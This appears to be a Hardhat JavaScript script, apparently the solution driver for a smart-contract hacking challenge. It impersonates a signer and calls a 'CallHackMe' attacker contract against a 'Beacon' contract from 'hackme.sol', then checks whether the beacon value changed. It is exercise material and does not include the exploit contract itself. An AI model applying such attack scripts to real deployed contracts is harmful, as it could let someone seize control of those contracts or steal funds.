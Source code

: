 ###

deploy.js

```
// We require the Hardhat Runtime Environment explicitly here. This is optional
// but useful for running the script in a standalone fashion through `node <script>`.
//
// You can also run a script with `npx hardhat run <script>`. If you do that, Hardhat
// will compile your contracts, add the Hardhat Runtime Environment's members to the
// global scope, and execute the script.
const hre = require("hardhat");
const fs = require('fs');
const dotenv = require('dotenv');
dotenv.config();

async function main() {

  // const wallet= new  hre.ethers.Wallet(process.env.PRIVATE_KEY ?? "");
  // console.log(`Using the wallet address: ${wallet.address}`)

  // // // const provider = new ethers.providers.EtherscanProvider("sepolia", process.env.ETHERSCAN_API_KEY);
  // const provider = new ethers.providers.JsonRpcProvider(process.env.ALCHEMY_API_KEY);
  // // const provider = new ethers.getDefaultProvider();
  // const lastBlock=await provider.getBlock("latest");
  // console.log(`The last block is ${lastBlock.number}`)
  // let signer=wallet.connect(provider);
  // const balance=await signer.getBalance();
  // console.log(`Balance of ${signer.address}, is ${balance} WEI`);

  // signer = wallet.connect(provider);

  const signer = await ethers.getImpersonatedSigner("0x6CF41c181AF032E13C7E561F742346F092E7AcFF");
  const balance=await signer.getBalance();
  console.log(`Balance of ${signer.address}, is ${balance} WEI`);

  const jsonString = fs.readFileSync('artifacts/contracts/hackme.sol/Beacon.json', 'utf-8');
  const abi = JSON.parse(jsonString).abi;

  const beaconInstance = new ethers.Contract( "0xe0681a89cF3c1Ade761560640Ea24933792Cd84E" , abi , signer );

  let beacon = await beaconInstance.beacon();
  console.log (`beacon : ${beacon}`);

  let pendingBeacon = await beaconInstance.pendingBeacon();
  console.log (`pendingBeacon : ${pendingBeacon}`);

  // const HackerFactory = await hre.ethers.getContractFactory("CallHackMe", signer);
  // const hackerInstance = await HackerFactory.deploy();
  // await hackerInstance.deployed();

  let hackerInstance = await hre.ethers.getContractAt("CallHackMe", "0x9bCb9c6B8aA1045A6382A81c279ea81711A434C0", signer);

  let tx = await hackerInstance.connect(signer).callBeacon(beaconInstance.address,{value: hre.ethers.utils.parseEther("0.001")});
  await tx.wait();

  let newBeacon = await beaconInstance.beacon();
  console.log (`Beacon : ${newBeacon}`);
}

// We recommend this pattern to be able to use async/await everywhere
```